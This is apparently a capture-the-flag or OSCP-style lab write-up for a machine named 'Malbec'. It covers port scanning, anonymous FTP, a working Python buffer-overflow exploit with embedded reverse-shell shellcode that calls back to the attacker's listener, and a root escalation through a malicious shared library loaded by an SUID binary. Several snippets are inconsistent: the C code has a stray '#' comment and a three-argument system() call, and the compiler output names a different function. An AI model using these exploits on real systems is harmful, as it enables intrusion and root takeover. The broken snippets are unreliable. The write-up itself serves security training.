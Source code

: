 # Malbec

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.240.129
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 13:44 +08
Nmap scan report for 192.168.240.129
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
2121/tcp open  ccproxy-ftp
7138/tcp open  unknown
```

We can do a detailed scan on this machine in case.

```
$ sudo nmap -p 22,2121,7138 -sC -sV --min-rate 4000 192.168.240.129                
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 13:45 +08
Nmap scan report for 192.168.240.129
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74ba2023899262029fe73d3b83d4d96c (RSA)
|   256 548f79555ab03a695ad5723964fd074e (ECDSA)
|_  256 7f5d102762ba75e9bcc84fe27287d4e2 (ED25519)
2121/tcp open  ftp     pyftpdlib 1.5.6
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx   1 carlos   carlos     108304 Jan 25  2021 malbec.exe [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.240.129:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
7138/tcp open  unknown
```

Port 2121 is FTP it seems.

### FTP --> Buffer Overflow

FTP allowed for anonymous access and it only had one file:

```
$ ftp 192.168.240.129 -p 2121
Connected to 192.168.240.129.
220 pyftpdlib 1.5.6 ready.
Name (192.168.240.129:kali): anonymous
331 Username ok, send password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering extended passive mode (|||49067|).
125 Data connection already open. Transfer starting.
-rwxrwxrwx   1 carlos   carlos     108304 Jan 25  2021 malbec.exe
```

We can download this `.exe` file to a Windows machine for some reverse engineering.&#x20;

<figure><img src="../../../.gitbook/assets/image (155).png" alt=""><figcaption><p><em>Old IP from Old Writeup</em></p></figcaption></figure>

When we check the listening ports on our Windows machine, we would see that `malbec.exe` opens port 7138:

<figure><img src="../../../.gitbook/assets/image (731).png" alt=""><figcaption></figcaption></figure>

This machine thus becomes a classic buffer overflow exploit as per OSCP. For this particular binary, there weren't any bad characters (other than the NULL byte) and it was just a matter of fuzzing the offset required.&#x20;

I won't be going through how to do it since the OSCP BOF style is prett well-documented already, so here's the final script I used:

```python
#!/usr/bin/python2
import socket

ip = "192.168.240.129"
port = 7138
timeout = 5

pattern = ""
#badchars = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

# final badchars are \x00
# msfvenom --payload linux/x86/shell_reverse_tcp LHOST=192.168.45.216 LPORT=21 --format c --bad-chars '\x00'
print ("\nSending evil buffer...")
size = 340
offset = "A"*size #filler
eip = "\x03\x15\x10\x41" #rtn
nop = "\x90" * 162
payload =("\xdb\xcf\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x12\xbf\xc0\xf8"
"\xda\x09\x31\x7a\x17\x03\x7a\x17\x83\x2a\x04\x38\xfc\x9b"
"\x2e\x4a\x1c\x88\x93\xe6\x89\x2c\x9d\xe8\xfe\x56\x50\x6a"
"\x6d\xcf\xda\x54\x5f\x6f\x53\xd2\xa6\x07\xa4\x8c\x74\x0f"
"\x4c\xcf\x86\xaf\x98\x46\x67\x1f\xc4\x08\x39\x0c\xba\xaa"
"\x30\x53\x71\x2c\x10\xfb\xe4\x02\xe6\x93\x90\x73\x27\x01"
"\x08\x05\xd4\x97\x99\x9c\xfa\xa7\x15\x52\x7c")

#buffer = pattern  #for fuzzing offset
#buffer = offset + badchars #for fuzzing bad chars
buffer = offset + eip + nop + payload 


s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,port))
s.send(bytes(buffer + "\r\n".encode("latin-1")))
s.close()
print ("\nDone!")
```

We can run this exploit and get a shell as the user:

```
$ python2 exploit_main.py

Sending evil buffer...

Done!
```

<figure><img src="../../../.gitbook/assets/image (740).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary --> Malicious Library

I ran a `linpeas.sh` scan on the machine, and it found a few interesting things.  Firstly, `root` is running `ldconfig` periodically:

<figure><img src="../../../.gitbook/assets/image (713).png" alt=""><figcaption></figcaption></figure>

The next was this SUID binary that I didn't recognise:

```
-rwsr-xr-x 1 root root        17K Jan 26  2021 /usr/bin/messenger
```

The last was a misconfiguration of the `ld.so` files:

<figure><img src="../../../.gitbook/assets/image (723).png" alt=""><figcaption></figcaption></figure>

This was interesting, because it appears that the user's home directory is the part of the configuration, meaning that `.so` files are executed from this directory. We can run `ldd` for the `messenger` binary to check where it loads its shared object files.&#x20;

```
carlos@malbec:/tmp$ ldd /usr/bin/messenger 
        linux-vdso.so.1 (0x00007ffd865bc000)
        libmalbec.so => not found
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f64cb634000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f64cb80a000)
```

So it appears that `libmalbec.so` is not found, and it loads it from `/home/carlos`. This means that we can just create a malicious `libmalbec.so` file that gives us a shell, and since `messenger` is an SUID binary, the shell will be with `root` privileges.&#x20;

Here's the source code I took from HackTricks:

{% code overflow="wrap" %}
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
// this function name is a result of testing, since it appears that the binary executes a malbec function
// you would get this error if not named properly:
// /usr/bin/messenger: symbol lookup error: /usr/bin/messenger: undefined symbol: malbec
void malbec(){ # the 
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("/bin/sh",NULL,NULL);
}
```
{% endcode %}

We just need to compile this and transfer it to the machine:

```
$ gcc -shared -o libmalbec.so -fPIC exploit.c                            
exploit.c: In function ‘say_hi’:
exploit.c:9:5: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    9 |     system("/bin/sh",NULL,NULL);
      |  
```

Afterwards, we can wait for `root` to execute `ldconfig`, which would configure the `messenger` binary to use the `libmalbec.so` file we created. Once it does, it will show up in `ldd`:

```
carlos@malbec:/home/carlos$ ldd /usr/bin/messenger
        linux-vdso.so.1 (0x00007ffe3a3e4000)
        libmalbec.so => /home/carlos/libmalbec.so (0x00007f0975667000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f09754a6000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f0975681000)
```

Then, we can just execute `messenger` to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (329).png" alt=""><figcaption></figcaption></figure>
